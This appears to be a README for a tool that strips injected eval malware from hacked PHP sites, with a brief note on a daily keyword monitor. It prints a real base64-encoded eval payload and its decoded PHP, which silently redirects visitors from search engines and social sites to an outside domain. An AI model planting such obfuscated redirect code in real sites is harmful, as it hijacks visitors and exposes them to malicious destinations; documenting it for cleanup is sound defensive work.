 exploit cleaner
==============

Removes common eval exploit code will have something similar to this:

eval(base64_decode("DQplcnJvcl9yZXBvcnRpbmcoMCk7DQokcWF6cGxtPWhlYWRlcnNfc2VudCgpOw0KaWYgKCEkcWF6cGxtKXsNCiRyZWZl
cmVyPSRfU0VSVkVSWydIVFRQX1JFRkVSRVInXTsNCiR1YWc9JF9TRVJWRVJbJ0hUVFBfVVNFUl9BR0VOVCddOw0KaWYgKCR1YWcpIHsNCmlmICgh
c3RyaXN0cigkdWFnLCJNU0lFIDcuMCIpIGFuZCAhc3RyaXN0cigkdWFnLCJNU0lFIDYuMCIpKXsKaWYgKHN0cmlzdHIoJHJlZmVyZXIsInlhaG9v
Iikgb3Igc3RyaXN0cigkcmVmZXJlciwiYmluZyIpIG9yIHN0cmlzdHIoJHJlZmVyZXIsInJhbWJsZXIiKSBvciBzdHJpc3RyKCRyZWZlcmVyLCJsa
XZlLmNvbSIpIG9yIHN0cmlzdHIoJHJlZmVyZXIsIndlYmFsdGEiKSBvciBzdHJpc3RyKCRyZWZlcmVyLCJiaXQubHkiKSBvciBzdHJpc3RyKCRyZWZ
lcmVyLCJ0aW55dXJsLmNvbSIpIG9yIHByZWdfbWF0Y2goIi95YW5kZXhcLnJ1XC95YW5kc2VhcmNoXD8oLio/KVwmbHJcPS8iLCRyZWZlcmVyKSBvc
iBwcmVnX21hdGNoICgiL2dvb2dsZVwuKC4qPylcL3VybFw/c2EvIiwkcmVmZXJlcikgb3Igc3RyaXN0cigkcmVmZXJlciwibXlzcGFjZS5jb20iKSB
vciBzdHJpc3RyKCRyZWZlcmVyLCJmYWNlYm9vay5jb20vbCIpIG9yIHN0cmlzdHIoJHJlZmVyZXIsImFvbC5jb20iKSkgew0KaWYgKCFzdHJpc3RyK
CRyZWZlcmVyLCJjYWNoZSIpIG9yICFzdHJpc3RyKCRyZWZlcmVyLCJpbnVybCIpKXsNCmhlYWRlcigiTG9jYXRpb246IGh0dHA6Ly9vbm90aXcuZG5
zZXQuY29tLyIpOw0KZXhpdCgpOw0KfQp9Cn0NCn0NCn0="));

That decodes to:


error_reporting(0);
$qazplm=headers_sent();
if (!$qazplm){
$referer=$_SERVER['HTTP_REFERER'];
$uag=$_SERVER['HTTP_USER_AGENT'];
if ($uag) {
if (!stristr($uag,"MSIE 7.0") and !stristr($uag,"MSIE 6.0")){
if (stristr($referer,"yahoo") or stristr($referer,"bing") or stristr($referer,"rambler") or stristr($referer,"live.com") or stristr($referer,"webalta") or stristr($referer,"bit.ly") or stristr($referer,"tinyurl.com") or preg_match("/yandex\.ru\/yandsearch\?(.*?)\&lr\=/",$referer) or preg_match ("/google\.(.*?)\/url\?sa/",$referer) or stristr($referer,"myspace.com") or stristr($referer,"facebook.com/l") or stristr($referer,"aol.com")) {
if (!stristr($referer,"cache") or !stristr($referer,"inurl")){
header("Location: http://onotiw.dnset.com/");
exit();
}
}


Which would send anyone that came from facebookl, yahoo, or google to:

http://onotiw.dnset.com/

badword monitor
===============

Plugin your url, your website, and put on a cron to run once a day






